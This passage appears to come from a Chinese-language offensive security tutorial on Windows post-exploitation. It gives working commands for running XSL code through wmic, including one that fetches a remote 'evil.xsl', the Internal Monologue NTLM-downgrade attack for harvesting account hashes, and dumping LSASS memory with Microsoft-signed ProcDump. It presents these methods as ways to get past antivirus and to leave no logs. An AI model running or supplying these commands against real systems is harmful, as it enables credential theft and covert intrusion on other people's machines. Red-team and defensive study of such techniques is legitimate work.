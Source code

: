 **wmic 调用**

```
本地：wmic process list /FORMAT:evil.xsl
```

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54gcW8GhcSaWq28addf6eaQ8JJR2juk5M1MibYGCdFYNmiceibZKB9v1yI9VZ6utl2xWlsTLvjeEnpSA/640?wx_fmt=png)

```
远程：
wmic os get /FORMAT:"https://example.com/evil.xsl"
```

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54gcW8GhcSaWq28addf6eaQMMfY70PUib6pWXnkwEWpMWyWVhZwdaD9I3r8EPUiawOzOGZUcVdhwRdA/640?wx_fmt=png)

**Internal Monologue Attack**

https://github.com/eladshamir/Internal-Monologue

介绍：通过 SSPI 调⽤ NTLM 身份验证，通过协商使⽤预定义 challenge 降级为 NetNTLMv1，获取到 NetNTLMv1 hash。⽽ NetNTLMv1 hash 可以短时间内使⽤彩虹表去破解。

这种情况可以在不接触 LSASS 的情况下检索 NTLM 哈希。可以说比运行 Mimikatz 更隐秘，因为不需要向受保护的进程注入代码或从受保护的进程中转储内存。由于 NetNTLMv1 响应是通过在本地与 NTLMSSP 进行交互而引发的，因此不会生成网络流量，并且所选择的挑战也不容易看到。没有成功的 NTLM 身份验证事件记录在日志中。

关于降级 NTLM 攻击可以看看这里

https://www.optiv.com/explore-optiv-insights/blog/post-exploitation-using-netntlm-downgrade-attacks

```
.\InternalMonologue.exe -Downgrade True -Restore False -Imperssonate True-Verbose True -Challenge 1122334455667788
```

成功出现当前的账户 HASH 值。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54gcW8GhcSaWq28addf6eaQyEm5OS3Jbj5MjS8N2GRvIrvIhxcMQ6ickQmrEJxgVrVClKJYuibD97wA/640?wx_fmt=png)

**Bypass**

部分杀软很变态能够将这些杀死，我们可以用几个方法将其绕过，转储 LASS，读取系统文件，制作新的 Bypassmimikazi 等等。

**Procdump**

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54gcW8GhcSaWq28addf6eaQI8J6NdtaFVBG0fYTicLAjD0lIU9XToD6DPWoibrVGfjTibnbg8UrDbT0A/640?wx_fmt=png)

官方介绍：ProcDump 是一个命令行实用程序，其主要目的是监视应用程序中的 CPU 尖峰并在尖峰期间生成崩溃转储，管理员或开发人员可以使用它来确定尖峰原因。ProcDump 还包括挂起的窗口监视，未处理的异常监视，并且可以基于系统性能计数器的值生成转储。它也可以用作常规流程转储实用程序。  

大家都熟知的 Procdump，由于它是微软官方的签名，所以我们能通过它 bypass 某些不怎么样的杀软来 dump 出 lass 存储的密码。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54gcW8GhcSaWq28addf6eaQTSVwVDytmfZX1Qd4CkVBnEFdbcibA7Wx7x4ho115TtmTct5qicjPDJNA/640?wx_fmt=png)

执行如下命令

```
Procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54gcW8GhcSaWq28addf6eaQUvHRNKXBax234IoqlXPrtzia1JqQy8x65XHwqicCm21RK0CVoHPFCL6Q/640?wx_fmt=png)
